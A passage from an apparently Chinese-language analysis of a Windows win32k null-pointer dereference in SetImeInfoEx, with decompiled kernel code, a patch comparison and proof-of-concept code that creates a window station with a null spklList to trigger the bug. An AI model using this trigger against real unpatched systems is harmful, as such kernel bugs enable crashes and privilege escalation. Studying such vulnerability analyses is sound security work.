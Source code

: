 ```
BOOL __stdcall SetImeInfoEx(tagWINDOWSTATION *winSta, tagIMEINFOEX *imeInfoEx)
`{`
  [...]
  if ( winSta )
  `{`
    pkl = winSta-&gt;spklList;
    while ( pkl-&gt;hkl != imeInfoEx-&gt;hkl )
    `{`
      pkl = pkl-&gt;pklNext;
      if ( pkl == winSta-&gt;spklList )
        return 0;
    `}`
    piiex = pkl-&gt;piiex;
    if ( !piiex )
      return 0;
    if ( !piiex-&gt;fLoadFlag )
      qmemcpy(piiex, imeInfoEx, sizeof(tagIMEINFOEX));
    bReturn = 1;
  `}`
  return bReturn;
`}`
```

根据前面补丁对比部分获得的信息，补丁程序在函数中增加对窗口站增加其成员域 `spklList` 是否为空的判断。这也就是说该成员域存在值为空的可能性。当其值为空时，函数在没有判断的情况下，直接读取零页数据。如果当前进程上下文不存在零页映射，那么函数将触发缺页异常，导致系统 BSOD 的发生。



## 0x3 触发

前面的部分分析了漏洞的细节，接下来根据已获得的条件尝试构造验证代码，以复现漏洞触发现场。

漏洞的触发需要进程关联成员域 `spklList` 指向空地址的窗口站对象。首先通过接口函数 `CreateWindowStation` 创建这样的窗口站，并通过调用函数 `SetProcessWindowStation` 将新创建的窗口站对象与当前进程关联起来。这最终在内核中使新的窗口站的地址被存储在当前进程的进程信息 `tagPROCESSINFO` 对象的成员域 `rpwinsta` 中。

```
SECURITY_ATTRIBUTES sa  = `{` 0 `}`;
sa.nLength              = sizeof(SECURITY_ATTRIBUTES);
sa.lpSecurityDescriptor = NULL;
sa.bInheritHandle       = TRUE;
hWinStat = CreateWindowStationW(NULL, CWF_CREATE_ONLY, WINSTA_ALL_ACCESS, &amp;sa);
SetProcessWindowStation(hWinStat);
```

新创建的窗口站对象的指针成员域 `spklList` 指向空地址：

```
kd&gt; dt win32k!tagWINDOWSTATION 85dfefa8
   +0x000 dwSessionId      : 1
   +0x004 rpwinstaNext     : (null)
   +0x008 rpdeskList       : (null)
   +0x00c pTerm            : 0x94b0eb80 tagTERMINAL
   +0x010 dwWSF_Flags      : 4
   +0x014 spklList         : (null)
   [...]
```
